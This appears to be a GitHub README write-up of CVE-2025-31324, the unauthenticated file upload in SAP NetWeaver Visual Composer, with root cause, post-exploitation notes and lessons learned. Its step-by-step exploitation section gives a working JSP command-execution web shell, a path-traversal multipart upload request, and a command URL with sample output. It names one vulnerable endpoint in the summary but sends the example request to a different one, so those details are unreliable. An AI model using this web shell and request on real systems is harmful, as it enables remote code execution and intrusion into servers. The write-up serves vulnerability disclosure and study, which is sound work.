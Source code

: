 # CVE-2025-31324 — SAP NetWeaver Visual Composer Unauthenticated File Upload

### Overview
- **CVE ID:** CVE-2025-31324
- **Published:** April 2025
- **Severity (CVSS):** 10.0 (Critical)
- **Affected Software/Versions:** SAP NetWeaver Application Server Java — Visual Composer (`VCFRAMEWORK 7.50`)
- **Vulnerability Type:** Unauthenticated File Upload leading to Remote Code Execution (RCE)

**Summary:**  
This vulnerability arises from a **missing authorization check** in the **metadata uploader** component of SAP NetWeaver Visual Composer.  
An unauthenticated attacker can send a crafted HTTP request to upload arbitrary files (such as **JSP web shells**) into a web-accessible directory.  

Once uploaded, these files can be directly requested via a browser or tool like `curl`, resulting in **execution of attacker-controlled code** on the SAP server.  

This is a **pre-auth, single-request RCE** with a CVSS 10.0 rating — one of the most critical categories possible.

---

### Context
To understand why this vulnerability is so dangerous, let’s break down **what Visual Composer does** and **how the bug fits into the bigger picture**:

- **Visual Composer** is a design-time tool inside SAP NetWeaver used for creating UI components and applications.  
- It includes an **endpoint called the metadata uploader** (`/developmentserver/metadatauploader`) that handles uploading XML or other artifacts for Visual Composer projects.  
- **The Problem:** This uploader endpoint **does not enforce authentication or authorization**.  
- **The Result:** Any unauthenticated attacker can POST arbitrary files to the server.  
- Because the files are placed into **web-served directories**, attackers can upload **JSP scripts** and then access them over HTTP to execute arbitrary code.

This is effectively the holy grail of web exploitation: **unauthenticated arbitrary file upload + immediate code execution**.

---

### Root Cause
The vulnerability boils down to **missing authorization checks** on the upload functionality.

- The **metadata uploader** simply accepts a file from an HTTP POST request.  
- It writes the file into a directory that the Java application server later **treats as executable content**.  
- No validation of file type, no verification of the requester, no restrictions.

---

### Exploitation (Step-by-Step)

#### 1. Locate the Vulnerable Endpoint

Attackers scan for SAP NetWeaver systems exposing endpoints like:
```
https://victim.sap.local/VC/Auth/VC_Auth.jsp
```
Other observed vulnerable endpoints include `/irj/portal/sap/bc/webdynpro/sap/ZWDC_METADATA_UPLDR`.
_The exact path varies by configuration_, but any exposed Visual Composer uploader is suspect.

#### 2. Craft the Malicious Upload
The attacker prepares a **malicious JSP web shell**.
For example, a simple command execution backdoor:
```jsp
<%@ page import="java.util.*,java.io.*"%>
<% if (request.getParameter("cmd") != null) { Process p = Runtime.getRuntime().exec(request.getParameter("cmd")); new java.io.InputStreamReader(p.getInputStream()).transferTo(out); } %>
```
They then send a `POST` request with this payload:
```http
POST /VC/Auth/VC_Auth.jsp HTTP/1.1
Host: victim.sap.local
Content-Type: multipart/form-data; boundary=----BOUNDARY

------BOUNDARY
Content-Disposition: form-data; name="FILENAME"

../../../../../../../../../apps/sap.com/vc~wd~ext/servlet_jsp/VC/root/shell.jsp
------BOUNDARY
Content-Disposition: form-data; name="zip"; filename="payload.zip"
Content-Type: application/octet-stream

<Binary content of the ZIP archive containing the JSP shell goes here>
------BOUNDARY--
```
#### 3. Access the Uploaded File
Once uploaded, the file is accessible under a web-served path, such as:
```
https://victim.sap.local/VC/root/shell.jsp
```
The attacker can now execute commands via HTTP:
```
https://victim.sap.local/VC/root/shell.jsp?cmd=whoami
```
Typical output:
```
sidadm
```
This confirms **remote code execution** as the SAP application server account.

---

### Post Exploitation
With arbitrary code execution, attackers can:

* Deploy persistent backdoors or reverse shells.
* Dump credentials or pivot inside the SAP landscape.
* Chain with other vulnerabilities (e.g. deserialization) for stealthier, fileless execution.

Reports confirm **active exploitation in the wild** since April 2025, with attackers dropping JSP shells named `helper.jsp`, `cache.jsp`, and similar.
CISA added this CVE to the **Known Exploited Vulnerabilities (KEV) catalog** on April 29, 2025.

---
### Proof of Concept

A **minimal educational PoC script** is provided in:
[`poc/exploit.py`](poc/exploit.py) <br>
It demonstrates:
- Crafting an in-memory ZIP archive containing the JSP payload.
- Sending a multipart POST request with the path traversal payload in the FILENAME form field.
- Confirming the upload by providing the final URL for the web shell.
> ⚠️ Note: The provided PoC is for controlled lab environments only.

---
### Lessons Learned

1. **Uploaders are high-value targets.** Any upload functionality with missing auth is a potential RCE.
2. **Web shells remain effective.** Despite modern defenses, JSP/PHP/ASP uploads are still highly reliable.
3. **Pre-auth bugs are catastrophic.** No authentication + direct RCE = maximum severity.
4. **Chaining is common.** Attackers often pair file upload with deserialization or SSRF to expand control.
5. **Operational awareness.** Attackers who find these endpoints will often use common naming patterns and blending techniques to hide in plain sight.

---
### References

* [Unit 42 Threat Brief: SAP NetWeaver CVE-2025-31324](https://unit42.paloaltonetworks.com/threat-brief-sap-netweaver-cve-2025-31324/)
* [CISA KEV Catalog Entry (CVE-2025-31324)](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)
* [CVE Details Entry](https://www.cvedetails.com/cve/CVE-2025-31324/)
* [Infosecurity Magazine: Exploit Released](https://www.infosecurity-magazine.com/news/sap-netweaver-flaw-exploit-released/)
* [WithSecure Labs: Attack Observations](https://labs.withsecure.com/publications/netweaver-cve-2025-31324)
